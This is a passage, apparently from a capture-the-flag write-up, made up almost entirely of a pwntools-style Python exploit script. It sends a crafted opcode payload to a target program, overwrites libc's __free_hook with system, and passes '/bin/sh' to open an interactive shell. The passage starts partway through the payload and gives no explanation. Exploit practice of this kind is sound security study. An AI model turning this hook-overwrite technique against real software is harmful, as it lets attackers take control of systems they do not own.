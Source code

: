 ```python
payload  += '*\x01\x01\x30\x00'

payload  += '*\x01\x05\x10\x00'
payload  += '*\x01\x06\x10\x00'
payload  += '/\x01\x05'
payload  += 'p'

io.sendlineafter(">",payload)

sleep(0.1);io.sendline("\n")
sleep(0.1);io.sendline("\n")
sleep(0.1);io.sendline("\n")
sleep(0.1);io.sendline("\n")
sleep(0.1);io.sendline(p64(0)*4+ p64(libc.sym['__free_hook']) )
sleep(0.1);io.sendline("/bin/sh")
sleep(0.1);io.sendline(p64(libc.sym['system']))
io.interactive()
```